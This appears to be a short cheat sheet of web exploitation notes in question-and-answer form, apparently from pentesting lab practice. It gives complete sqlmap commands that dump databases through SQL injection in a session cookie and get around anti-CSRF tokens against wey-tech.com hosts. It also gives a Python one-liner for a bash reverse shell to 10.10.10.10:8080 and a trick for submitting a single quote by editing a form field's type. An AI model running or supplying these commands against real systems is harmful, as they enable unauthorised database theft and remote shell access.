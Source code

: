 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file and want to peep inside?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```

### In what way can you try to trip up a web form that uses html tags in order to check syntax?
As an example case with `<input ... type='email'>`, you can inspect the tag and change the type to `text` and try submitting a single quote (`'`).

### How do you use sqlmap when the site has an anti-CSRF token mechanism?
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --csrf-url="http://personnel.wey-tech.com/validator.php" --csrf-token=token -v 6
```
If that doesn't work, you may need to use `eval` to write a custom python script.
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --eval "import urllib;page = urllib.urlopen('http://personnel.wey-tech.com/validator.php');token = urllib.quote(str(page.read()).decode('utf-8'));print(token)" -p applicantmail -v 1
```
